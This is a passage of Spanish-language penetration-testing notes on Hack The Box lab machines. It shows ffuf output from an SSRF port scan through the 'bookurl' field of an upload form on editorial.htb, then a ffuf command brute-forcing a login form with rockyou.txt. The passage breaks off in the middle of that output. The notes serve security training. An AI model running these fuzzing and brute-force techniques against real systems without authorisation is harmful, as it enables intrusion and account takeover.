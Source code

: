 ```

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /home/nptg/Documentos/HTB/Editorial/content/ports.txt
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
 :: Header           : Host: editorial.htb
 :: Header           : Accept: */*
 :: Header           : Origin: http://editorial.htb
 :: Header           : Connection: keep-alive
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
 :: Header           : Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryo75uBVWJj6R5IPCH
 :: Header           : Referer: http://editorial.htb/upload
 :: Data             : ------WebKitFormBoundaryo75uBVWJj6R5IPCH
Content-Disposition: form-data; name="bookurl"

http://localhost:FUZZ
------WebKitFormBoundaryo75uBVWJj6R5IPCH
Content-Disposition: form-data; name="bookfile"; filename="images.jpg"
Content-Type: image/jpeg


------WebKitFormBoundaryo75uBVWJj6R5IPCH--
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 168ms]
:: Progress: [65535/65535] :: Job [1/1] :: 216 req/sec :: Duration: [0:04:46] :: Errors: 1 ::

```

### Fuerza bruta de contraseñas

Con ffuf también se puede aplicar fuerza bruta sobre formularios de inicio de sesión. El proceso consiste en interceptar la petición con BurpSuite, guardarla en un archivo (por ejemplo requestdep.txt) y marcar con FUZZ el parámetro de la contraseña.

```
┌──(root㉿nptg)-[/home/…/Documentos/HTB/Nineveh/content]
└─# ffuf -w /usr/share/wordlists/rockyou.txt -u http://10.10.10.43/department/login.php -request requestdep.txt -fs 0,1639

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.10.43/department/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
 :: Header           : Host: 10.10.10.43
 :: Header           : Upgrade-Insecure-Requests: 1
```